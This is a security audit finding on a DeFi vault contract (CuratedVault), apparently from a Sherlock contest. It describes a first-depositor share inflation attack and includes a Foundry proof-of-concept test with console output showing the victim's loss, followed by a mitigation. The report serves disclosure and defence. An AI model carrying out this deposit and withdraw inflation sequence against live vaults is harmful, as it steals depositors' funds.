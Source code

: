 Joyous Cedar Tortoise

Medium

# A malicious attacker can frontrun and grief the deposit of the first depositor

### Summary

A malicious attacker can frontrun and steal the deposit of the first depositor. The attack cost is half of the stolen funds.

### Root Cause

When [depositing](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/vaults/CuratedVault.sol#L322), the shares minted rounds down. When withdrawing, the shares burned rounds up. An attacker can exploit this to effectively donate to the protocol, by repeatedly depositing and withdrawing funds. This inflates the value of a share, causing the next depositor to receive 0 shares.

### Internal pre-conditions

The vault asset has 18 decimals of precision

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

The first depositor loses their funds

### PoC

Add the following test to `ERC4626Test.sol`

```solidity
function testJ_vaultInflationAttack() public {
    uint256 initialBalance = 100e18;
    uint256 deposited = 1e18;
    uint256 borrowedAssets = 1e17;

    deal(address(loanToken), supplier, initialBalance);
    uint256 supplierBalanceBefore = loanToken.balanceOf(supplier);

    address victim = makeAddr("victim");
    deal(address(loanToken), victim, 20e18); 

    vm.prank(supplier);
    vault.deposit(deposited, supplier);

    //Borrower borrows//
    deal(address(collateralToken), borrower, 20e18);
    deal(address(loanToken), borrower, 1e12); // enough to cover interest

    vm.startPrank(borrower);
    allMarkets[0].supplySimple(address(collateralToken), borrower, 1e18, 0);
    allMarkets[0].borrowSimple(address(loanToken), borrower, borrowedAssets, 0);

    vm.warp(block.timestamp + 60);
    // Borrower repays (including interest) after a minute//
    loanToken.approve(address(allMarkets[0]), loanToken.balanceOf(borrower));
    allMarkets[0].repaySimple(address(loanToken), type(uint256).max, 0);

    vm.stopPrank();
    vm.startPrank(supplier);
    uint256 redeemed = vault.withdraw(vault.totalAssets() - 2, supplier, supplier);
    vm.stopPrank();

    print_data(); // Show that the initial state (totalAssets=2, totalSupply=1) has been achieved

    vm.startPrank(supplier);
    for (uint256 i = 0; i < 64; i++) {
        vault.deposit(vault.totalAssets(), supplier);
        if (vault.totalSupply() == 2) vault.withdraw(1, supplier, supplier); // burn a whole share by withdrawing 1 wei of asset
        //print_data();
    }

    console.log("attacker balance after inflation: %e", loanToken.balanceOf(supplier));
    console.log("\nInflation done\n");
    print_data();

    uint256 victimBefore = loanToken.balanceOf(victim);
    vm.startPrank(victim);
    loanToken.approve(address(vault), loanToken.balanceOf(victim));
    uint256 shares = vault.deposit(vault.totalAssets()/2 - 1, supplier);
    assertEq(shares, 0); // 0 shares minted, so deposit is lost
    console.log("victim fund loss: %e", victimBefore - loanToken.balanceOf(victim));

    vm.startPrank(supplier);
    console.log("\nCollecting Profit\n");

    vault.redeem(vault.balanceOf(supplier), supplier, supplier);

    console.log("attack cost: %e", supplierBalanceBefore - loanToken.balanceOf(supplier));
}
```

**Console log:**

```bash
[PASS] testJ_vaultInflationAttack() (gas: 13533374)
Logs:
  totalAssets: 2e0, totalSupply: 1e0
  attacker balance after inflation: 8.1553256832810543275e19
  
Inflation done

  totalAssets: 1.8446743117751650358e19, totalSupply: 1e0
  victim fund loss: 9.223371558875825178e18
  
Collecting Profit

  attack cost: 4.611685841943580758e18

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 62.94ms (55.66ms CPU time)

Ran 1 test suite in 64.22ms (62.94ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

It is recommended to include a small initial deposit of 1000 shares on deployment of the pool.